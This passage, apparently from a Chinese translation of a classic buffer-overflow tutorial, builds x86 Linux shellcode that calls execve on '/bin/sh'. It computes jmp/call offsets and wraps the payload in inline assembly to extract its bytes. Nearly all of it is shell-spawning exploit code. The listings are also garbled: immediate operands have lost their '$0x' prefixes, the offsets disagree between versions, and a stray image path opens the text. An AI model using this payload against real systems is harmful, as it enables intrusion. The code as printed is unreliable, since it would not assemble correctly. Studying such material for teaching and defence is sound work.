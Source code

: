 运用上述的修正方法, 并使用相对索引寻址, 我们代码中每条指令的字节数目如下:


```
jmp offset-to-call # 2 bytes
popl %esi # 1 byte
movl %esi,array-offset(%esi) # 3 bytes
movb x0,nullbyteoffset(%esi)# 4 bytes
movl x0,null-offset(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal array-offset(%esi),%ecx # 3 bytes
leal null-offset(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call offset-to-popl # 5 bytes
/bin/sh string goes here.
```

通过计算从jmp到call, 从call到popl, 从字串地址到数组, 从字串地址到空长字的
偏量, 我们得到:


```
jmp 0x26 # 2 bytes
popl %esi # 1 byte
movl %esi,0x8(%esi) # 3 bytes
movb x0,0x7(%esi) # 4 bytes
movl x0,0xc(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal 0x8(%esi),%ecx # 3 bytes
leal 0xc(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call -0x2b # 5 bytes
.string \"/bin/sh\" # 8 bytes
```

这看起来很不错了. 为了确保代码能够正常工作必须编译并执行. 但是还有一个问题. 我们的代码修改了自身, 可是多数操作系统将代码页标记为只读. 为了绕过这个限制我们 必须把要执行的代码放到堆栈或数据段中, 并且把控制转到那里. 为此应该把代码放到数 据段中的全局数组中. 我们首先需要用16进制表示的二进制代码. 先编译, 然后再用gdb 来取得二进制代码.


shellcodeasm.c

```c
void main() {
    __asm__("
        jmp 0x2a # 3 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        movb x0,0x7(%esi) # 4 bytes
        movl x0,0xc(%esi) # 7 bytes
        movl xb,%eax # 5 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        movl x1, %eax # 5 bytes
        movl x0, %ebx # 5 bytes
        int x80 # 2 bytes
        call -0x2f # 5 bytes
        .string \"/bin/sh\" # 8 bytes
    ");
}
```